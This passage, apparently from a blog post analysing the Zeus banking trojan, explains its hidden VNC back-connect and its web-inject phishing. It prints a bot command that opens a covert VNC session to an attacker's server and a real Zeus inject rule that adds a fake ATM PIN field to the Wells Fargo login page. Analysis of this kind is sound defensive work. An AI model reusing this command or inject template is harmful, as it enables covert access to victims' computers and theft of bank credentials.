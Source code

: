 ```bash Back Connect Script
bot_bc_add vnc 172.16.50.181 9000
```

This tells the bot where to connect to wait for a VNC session. 

Next, the attacker can sit and watch hes Back Connect Server's output and see when a new bot has connected. He may now connect using hes VNC client to the client port of the back connect server and viola, VNC access. Alarmingly, the VNC access is not like your traditional VNC where the user will see the pointer move as the VNC user moves it. No, this VNC session starts in a separate **display**, ensuring that the user is still unaware of what is happening. This for me was the most alarming part. It's almost as if hes attaching to another *tty*.

{% img http://i.imgur.com/7tg4l2X.png %}

### Web Injects, the real threat.
So all of this Remote Administration Stuff is cool. No doubt they are useful tools for an attacker, but this is not what has made Zeus what it is known for today. Zeus uses what is called **Web Injects** to manipulate website content. "What do you mean by 'manipulation'?" you may ask. Well, lets assume you are about to buy something online. Generally, the store would ask you for a Credit Card number and an expiry. Usually, on the next page you may be asked for the CVV number. With your machine infected with Zeus, the attacker is able to ask for your Credit Card Number, Expiry, CVV, Email Address, Address, Tel no., secret question etc etc all on one page. The page itself will look totally legit, and again, to the unsuspecting user, this may seem completely normal and away he goes entering hes details. Once submitted, Zeus captures the entire request, including the cookies, the POST data etc etc and based on the bots timer configurations, uploads this information to the Command & Control server. Just like the one we just used to Remotely Administer the infected machines.

With all this information, he may be able to return at a later stage, VNC to your computer and access your account to buy himself some new toys. Because he managed to get hold of your secret question, he finds no trouble in complying to any potential security checks the portal may bring.

#### How it works
When looking at the web injects, I guess the simplest way to describe them is similar to your favorite text editors search and replace features. With the Zeus bot hooked into some low level network API's in Windows, it is able to monitor for its configured URL's, and inject arbitrary content into the responses that are displayed in your browser. Lets take an example from the source [here](https://github.com/Visgean/Zeus/blob/translation/output/builder/webinjects.txt#L63).

```html Wellsfargo Web Inject
set_url https://www.wellsfargo.com/* G
data_before
<span class="mozcloak"><input type="password"*</span>
data_end
data_inject
<br><strong><label for="atmpin">ATM PIN</label>:</strong>&nbsp;<br />
<span class="mozcloak"><input type="password" accesskey="A" id="atmpin" name="USpass" size="13" maxlength="14" style="width:147px" tabindex="2" /></span>
data_end
data_after
data_end
```

In the above extract from the web injects we can see that the http**s**://wellsfargo.com (note the s) website will have a extra field added, asking for a *ATM PIN* before the password field. Now, an important thing to note here. Yes, a website owner could change the web sources which will make this web inject not work, however, the POST data will still be recorded for this watched URL and eventually stored on the C&C.
